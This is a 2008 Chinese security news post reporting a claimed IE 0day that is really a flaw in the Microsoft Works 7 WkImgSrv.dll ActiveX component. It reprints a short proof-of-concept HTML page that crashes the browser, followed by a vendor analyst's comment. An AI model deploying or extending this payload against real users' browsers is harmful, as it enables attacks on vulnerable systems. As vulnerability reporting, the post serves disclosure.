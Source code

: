 ```yaml
---
title: Windows组件0Day漏洞　通杀IE6与IE7浏览器
description: 中国IT实验室4月21日报道：近日收到网友发来的邮件，反映了一个Windows0Day漏洞。并在其博客中给出了相关代码。[0day]MicrosoftWorks7WkImgSrv.dllcrashPOC，dll版本7.03.0616.0，IE7+WindowsXPSP2测试通过。
date: 2008-04-23 08:51:42
category: 漏洞信息
tags: ['0day', 'Windows']
post_id: 460
alias: Windows-Microsoft-Works-0day
ViewNums: 4847
---
```


中国IT实验室4月21日报道：近日收到网友发来的邮件，反映了一个[Windows](/tags/Windows) [0Day](/tags/0day)漏洞。并在其博客中给出了相关[代码](/tags/%E6%BA%90%E7%A0%81)。

[0day]Microsoft Works 7 WkImgSrv.dll crash POC，dll版本7.03.0616.0，IE7+Windows XP SP2 测试通过。

[html]
[head]
[title]Microsoft Works 7 WkImgSrv.dll crash POC[/title]
[script language="JavaScript"]
 function payload() {
 var num = -1;
 obj.WksPictureInterface = num;
 }
 [/script]
[/head]
[body onload="JavaScript: return payload();"]
[object classid="clsid:00E1DB59-6EFD-4CE7-8C0A-2DA3BCAAD9C6" id="obj"]
[/object]
[/body]
[/html]

与金山专家李铁军联系，得到了珠海研发中心的回复，如下：

近几天网络上流传着一个传说为IE 0DAY的POC代码，在Windows XP系统环境下通杀了IE6和IE7，其它系统并未经过测试。其实这个[漏洞](/tags/%E6%BC%8F%E6%B4%9E%E4%BF%A1%E6%81%AF)并不是存在于IE，而是Microsoft Works的组件被挖掘出漏洞，部分的Windows XP预装了Microsoft Works，所以就出现了过全补丁系统的漏洞（如华硕易PC 就预装了Microsoft Works）。这段攻击代码会让浏览器崩溃，目前尚不能因此传播[恶意软件](http://www.virus-info.cn//tags/%E6%B5%81%E6%B0%93%E8%BD%AF%E4%BB%B6)。

